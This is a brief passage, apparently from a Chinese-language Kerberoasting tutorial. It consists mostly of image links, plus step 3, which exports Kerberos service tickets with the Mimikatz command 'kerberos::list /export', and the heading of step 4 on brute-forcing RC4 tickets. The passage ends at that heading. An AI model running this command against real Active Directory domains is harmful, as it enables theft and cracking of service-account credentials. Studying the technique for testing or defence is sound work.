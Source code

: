 [![](assets/1701606719-0097d8392fbef790c4853247d7b0ac4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162622-7fe1129a-7e10-1.png)  
3、导出 TGS

```bash
mimikatz # kerberos::list /export
```

[![](assets/1701606719-091772eaecc238649264eb4fbaae56c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162646-8de48296-7e10-1.png)  
4、暴力破解 (选取 RC4 的来破解)
